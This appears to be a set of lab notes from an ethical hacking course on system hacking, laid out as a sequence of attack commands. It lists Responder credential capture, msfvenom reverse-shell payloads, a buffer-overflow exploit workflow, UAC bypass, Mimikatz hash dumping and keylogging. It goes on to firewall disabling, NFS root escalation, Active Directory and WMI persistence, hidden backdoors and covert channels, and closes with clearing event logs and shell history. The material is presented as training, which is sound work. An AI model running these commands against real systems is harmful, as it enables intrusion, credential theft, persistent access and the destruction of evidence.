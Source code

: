 # System hacking

## Gain access to the system

- Perform active online attack to crack the system’s password using Responder

```bash
responder -I eth0 ---------------  sudo ./Responder.py -I ens3
sudo john /home/ubuntu/Responder/logs/[Log File Name.txt]
```

- Audit system passwords using L0phtCrack
Password Auditing Wizard

- Find vulnerabilities on exploit sites
<https://www.exploit-db.com/>
VulDB <https://vuldb.com>
MITRE CVE <https://cve.mitre.org>
Vulners <https://vulners.com>
CIRCL CVE Search <https://cve.circl.lu>

- Exploit client-side vulnerabilities and establish a VNC session
`msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -fexe LHOST=[IP Address of Host Machine] LPORT=444 -o /home/attacker/Desktop/Test.exe`

```bash
msfconsole
use exploit/multi/handler
...
```

`upload /root/PowerSploit/Privesc/PowerUp.ps1 PowerUp.ps1`
`powershell -ExecutionPolicy Bypass -Command “. .\PowerUp.ps1;Invoke-AllChecks”`
`run vnc`

- Gain access to a remote system using Armitage
Pentesting --> Exploitation Tools --> MetasploitFramework --> armitage
Nmap Scan --> Intense Scan
Create payload
Work with meterpreter shell

- Gain access to a remote system using Ninja Jonin
Ninja is installed in victim machine and Jonin is installed on the attacker machine
modifiy constants.json set ip and port
when receiving access denied on listener "list" -> "connect 1" -> change -> cmd

- Perform buffer overflow attack to gain access to a remote system
trun.spk
    s_readline();
    s_string(“TRUN ”);
    s_string_variable(“0”);
generic_send_tcp 10.10.1.11 9999 trun.spk 0 0
fuzz.py

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 11900
findoff.py

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 11900 -q 386F4337
overwrite.py

badchars.py
in immunity debugger: !mona modules

/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
    JMP ESP
    EXIT

!mona find -s “\xff\xe4” -m essfunc.dll --> 0x625011af

jump.py

msfvenom -p windows/shell_reverse_tcp LHOST=[Local IP Address] LPORT=[Listening Port] EXITFUNC=thread -f c -ax86 -b “\x00”

shellcode.py

## Perform privilege escalation to gain higher privileges

- Escalate privileges using privilege escalation tools and exploit client-side vulnerabilities
`msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.1.13 -f exe >/home/attacker/Desktop/Exploit.exe`
start msfconsole (exploit -j -z)
beRoot.exe
GhostPack
    Seatbelt.exe -group=system
    Seatbelt.exe -group=user
    Seatbelt.exe -group=misc
                 -group=all
                 -group=slack
                 -group=chromium
                 -group=remote
                                -outputfile=""
`use exploit/windows/local/bypassuac_fodhelper` --> `getsystem -t 1`
run post/windows/gather/smart_hashdump

- Hack a Windows machine using Metasploit and perform post-exploitation using Meterpreter

```bash
getuid
timestomp file -m
keyscan_start
keyscan_dump
idletime
```

```bash
dir /a:h
sc queryex type=service state=all
netsh firewall show state
netsh firewall show config
wmic /node:"" product get name,version,vendor
wmic cpu get
wmic useraccount get name,sid
wmic os where Primary='TRUE' reboot
netsh advfirewall set currentprofile state off
netsh advfirewall set allprofiles state off
```

- Escalate privileges by exploiting vulnerability in pkexec
CVE-2021-4034
make

- Escalate privileges in Linux machine by exploiting misconfigured NFS

```bash
sudo apt install nfs-kernel-server
sudo nano /etc/exports --> /home *(rw,no_root_squash)
sudo /etc/init.d/nfs-kernel-server restart
```

```bash
to configure nfs server
    sudo nano /etc/exports
-- type /home *(rw,no_root_squash)

sudo apt-get install nfs-common
showmount -e 10.10.1.9
sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
sudo cp /bin/bash .
sudo chmod +s bash
ps -ef
```

- Escalate privileges by bypassing UAC and exploiting Sticky Keys

```bash
use post/windows/manage/sticky_keys
```

- Escalate privileges to gather hashdump using Mimikatz
load kiwi
lsa_dump_sam
lsa_dump_secrets
password_change -u Admin -n [NTLM hash of Admin acquired in previous step] -P password

## Maintain remote access and hide malicious activities

- User system monitoring and surveillance using Power Spy
windows software

- User system monitoring and surveillance using Spytech SpyAgent
windows software

- Hide files using NTFS streams
type c:\magic\calc.exe > c:\magic\readme.txt:calc.exe
mklink backdoor.exe readme.txt:calc.exe

- Hide data using white space steganography
snow -C -m "My swiss bank account number is 45656684512263" -p "magic" readme.txt readme2.txt
snow -C -p "magic" readme2.txt

- Image steganography using OpenStego and StegOnline
openstego windows software
<https://stegonline.georgeom.net/upload>

- Maintain persistence by abusing boot or logon autostart execution
`cd “C:\\ProgramData\\Start Menu\\Programs\\Startup”`

- Maintain domain persistence by exploiting Active Directory Objects
When an Active Directory group is marked a protected group; Active Directory will ensure that the owner, the ACLs and the inheritance applied on this group are the same as the ones applied on AdminSDHolder container

after getting a meterpreter shell
    upload -r /home/attacker/PowerTools-master C:\\Users\\Administrator\\Downloads
    powershell
        Import-Module ./powerview.psm1
        Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName Martin -Verbose -Rights All
        Get-ObjectAcl -SamAccountName "Martin” -ResolveGUIDs
        REG ADD HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /V AdminSDProtectFrequency /TREG_DWORD /F /D 300
        net group “Domain Admins” Martin /add /domain

- Privilege escalation and maintain persistence using WMI
upload /home/attacker/Wmi-Persistence-master C:\\Users\\Administrator\\Downloads
load powershell
powershell_shell
Import-Module ./WMI-Persistence.ps1
Install-Persistence -Trigger Startup -Payload “C:\Users\Administrator\Downloads\wmi.exe”

- Covert channels using Covert_TCP
cc -o covert_tcp covert_tcp.c
tcpdump -nvvx port 8888 -i lo
./covert_tcp -dest 10.10.1.9 -source 10.10.1.13 -source_port 9999 -dest_port 8888 -server -file/home/ubuntu/Desktop/Receive/receive.txt
./covert_tcp -dest 10.10.1.9 -source 10.10.1.13 -source_port 8888 -dest_port 9999 -file/home/attacker/Desktop/Send/message.txt

## Clear logs to hide the evidence of compromise

- View, enable, and clear audit policies using Auditpol
windows tool
auditpol /get /category:*
auditpol /set /category:"system","account logon" /success:enable /failure:enable --> to enable
auditpol /clear /y

- Clear Windows machine logs using various utilities
Clear_Event_Viewer_Logs.bat

wevtutil el
wevtutil cl [log_name]

cipher /w:[Drive or Folder or File Location] -- The Cipher.exe utility starts overwriting the deleted files, first, with all zeroes (0x00); second, with all 255s (0xFF); and finally,with random numbers

- Clear Linux machine logs using the BASH shell

export HISTSIZE=0 -- disable shell log
history -c
shred ~/.bash_history && cat /dev/null >.bash_history

- Hiding artifacts in windows and Linux machines
folder
    attrib +h +s +r Test (attrib -s -h -r Test)
user
    net user Test /add
    net user Test /active:yes
    net user Test /active:no
on linux 
    prepend . in file name

- Clear Windows machine logs using CCleaner
windows software
